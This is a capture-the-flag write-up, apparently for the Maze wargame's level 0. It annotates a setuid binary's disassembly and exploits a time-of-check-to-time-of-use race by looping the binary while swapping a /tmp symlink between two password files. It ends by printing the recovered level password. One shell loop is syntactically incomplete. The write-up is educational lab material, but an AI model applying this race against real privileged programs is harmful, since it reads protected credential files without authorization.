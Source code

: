 
/maze/maze0 has privileges of maze0 at the begining, and then it asks for more privilages 

Dump of assembler code for function main:
```assembly
   0x0804854b <+0>:	push   ebp
   0x0804854c <+1>:	mov    ebp,esp
   0x0804854e <+3>:	push   esi
   0x0804854f <+4>:	push   ebx
   0x08048550 <+5>:	sub    esp,0x18
   0x08048553 <+8>:	push   0x14
   0x08048555 <+10>:	push   0x0
   0x08048557 <+12>:	lea    eax,[ebp-0x20]
   0x0804855a <+15>:	push   eax
   0x0804855b <+16>:	call   0x8048420 <memset@plt>		#reset mem block of 20
   0x08048560 <+21>:	add    esp,0xc
   0x08048563 <+24>:	push   0x4				#R_OK mode --> read
   0x08048565 <+26>:	push   0x8048660
   0x0804856a <+31>:	call   0x8048430 <access@plt>		#try to access a file
   0x0804856f <+36>:	add    esp,0x8
   0x08048572 <+39>:	test   eax,eax
   0x08048574 <+41>:	jne    0x80485d4 <main+137>		#if not succsesful, exit...
   0x08048576 <+43>:	call   0x80483d0 <geteuid@plt>		#escalate privileges
   0x0804857b <+48>:	mov    esi,eax
   0x0804857d <+50>:	call   0x80483d0 <geteuid@plt>		#...
   0x08048582 <+55>:	mov    ebx,eax
   0x08048584 <+57>:	call   0x80483d0 <geteuid@plt>		#...
   0x08048589 <+62>:	push   esi
   0x0804858a <+63>:	push   ebx
   0x0804858b <+64>:	push   eax
   0x0804858c <+65>:	call   0x80483b0 <setresuid@plt>	#escalate
   0x08048591 <+70>:	add    esp,0xc
   0x08048594 <+73>:	push   0x0
   0x08048596 <+75>:	push   0x8048660
   0x0804859b <+80>:	call   0x80483f0 <open@plt>		#open the file
   0x080485a0 <+85>:	add    esp,0x8
   0x080485a3 <+88>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485a6 <+91>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485aa <+95>:	jns    0x80485b3 <main+104>		#if succesful continue
   0x080485ac <+97>:	push   0xffffffff
   0x080485ae <+99>:	call   0x80483e0 <exit@plt>
   0x080485b3 <+104>:	push   0x13
   0x080485b5 <+106>:	lea    eax,[ebp-0x20]
   0x080485b8 <+109>:	push   eax
   0x080485b9 <+110>:	push   DWORD PTR [ebp-0xc]
   0x080485bc <+113>:	call   0x80483c0 <read@plt>		#read contents
   0x080485c1 <+118>:	add    esp,0xc
   0x080485c4 <+121>:	push   0x13
   0x080485c6 <+123>:	lea    eax,[ebp-0x20]
   0x080485c9 <+126>:	push   eax
   0x080485ca <+127>:	push   0x1
   0x080485cc <+129>:	call   0x8048410 <write@plt>		#write to stdout
   0x080485d1 <+134>:	add    esp,0xc
   0x080485d4 <+137>:	mov    eax,0x0
   0x080485d9 <+142>:	lea    esp,[ebp-0x8]
   0x080485dc <+145>:	pop    ebx
   0x080485dd <+146>:	pop    esi
   0x080485de <+147>:	pop    ebp
   0x080485df <+148>:	ret
   ```

file = /tmp/128ecf542a35ac5270a87dc740918404

well use a technique called "race condition",
we try to bypass the access() by:
creating ln -s to maze0 password
starting /maze/maze0 (on another procces)
changing ln -s to maze1 password

implementetion:
```sh
while [ 1 ];
do
/maze/maze0
done;
```
on another window:
```sh
while [ 1 ];
ln -s /etc/maze_pass/maze0 /tmp/128ecf542a35ac5270a87dc740918404
ln -s /etc/maze_pass/maze1 /tmp/128ecf542a35ac5270a87dc740918404
done;
```

we get:
hashaachon

